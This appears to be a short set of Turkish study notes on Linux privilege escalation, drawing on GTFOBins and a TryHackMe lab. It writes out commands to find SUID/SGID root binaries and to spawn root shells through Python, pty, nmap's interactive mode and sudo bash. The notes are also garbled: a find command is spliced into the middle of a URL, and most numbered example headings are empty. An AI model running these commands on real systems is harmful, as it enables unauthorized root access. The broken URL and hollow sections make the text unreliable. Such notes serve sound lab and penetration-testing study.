

yetki yükseltme
yetki yükseltilebilecek dosyaları arama komutu
find / -user root -perm /4000
find / -user root -perm -4000 -exec ls -ldb {} \;
bir yetki yükseltme python komutu örneği;
usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'
kaynak: https://gtfobins.github.io/gtfobins/python/
bir başka yetki yükseltme komutu:
sudo bash
Privilege Escalation with Path Variable Manipulation
find / -perm -u=s -type f 2>/dev/null
Find all the SUID/SGID executables on the Debian VM:
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
https://www.siberportal.org/red-tefind / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/nullam/linux-penetration-tests/linux-sizma-testlerinde-hak-yukseltme-yontemleri/
yeki yükseltme örnek-1 :
python -c 'import pty; pty.spawn("/bin/sh")'
find / -perm -u=s -type f 2>/dev/null
nmap --interactive
nmap> !sh

yeki yükseltme örnek-2 :
yetki yükseltme hedefleri tamamlandı
kaynak: https://gtfobins.github.io/
yeki yükseltme örnek-3 :
cron ve tar ile;
kaynak: https://tryhackme.com/room/linuxprivesc

yeki yükseltme örnek-4 :
yeki yükseltme örnek-5 :
PATH ile;
yeki yükseltme örnek-6 :
bash version <4.2-048 ise;
yeki yükseltme örnek-7 :
yeki yükseltme örnek-8 :
"hidden history files" ile ;
yeki yükseltme örnek-9 :
"config files" ile ;
yeki yükseltme örnek-10 :
"root_keys - SSH Keys, backups ile;
yeki yükseltme örnek-11 :
"NFS servisi ile remote user;
yeki yükseltme örnek-12 :
"Linux Exploit Suggester 2 ile;